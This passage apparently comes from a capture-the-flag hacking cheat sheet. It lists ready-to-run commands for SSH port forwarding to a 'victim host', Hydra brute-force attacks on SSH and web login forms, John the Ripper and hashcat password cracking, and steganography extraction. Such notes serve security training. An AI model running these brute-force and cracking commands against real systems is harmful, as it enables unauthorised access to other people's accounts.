 * -L: Direct Redirect
* -D: SOCKS Redirect
* -N: Do not connect

Redirect localhost to victim host
```bash
ssh -N -L 8080:hack.thm:8080 localhost
```

## Password Hack

### Hydra

```sudo hydra <Username/List> <Password/List> <IP> <Method> "<Path>:<RequestBody>:<IncorrectVerbiage>```
```sh
hydra -f -t 4 -l user -P /usr/share/wordlists/rockyou.txt ssh://$IP
```
```sh
hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid"
```

### JohnTheRipper

- ssh private key

```sh
/usr/share/john/ssh2john.py [ssh_file] > forjohn
john --wordlist=wordlist.txt forjohn
```

### Hashcat
- [hashcat modes](https://github.com/U4I5/HackNotes/blob/main/hashcat.examples.txt) 
- MD5 Wordlist


```sh
hashcat -a 0 -m 0 "42f749ade7f9e195bf475f37a44cafcb" /usr/share/wordlists/rockyou.txt
```

- MD5 bruteforce
  
```sh
hashcat -a 3 -m 0 "48bb6e862e54f2a795ffc4e541caed4d" ?a?a?a?a --show
```

## Steganography

```sh
steghide extract -sf file.jpg
```

```sh
stegcracker file.jpg
```

```sh
binwalk file
binwalk -e file
```

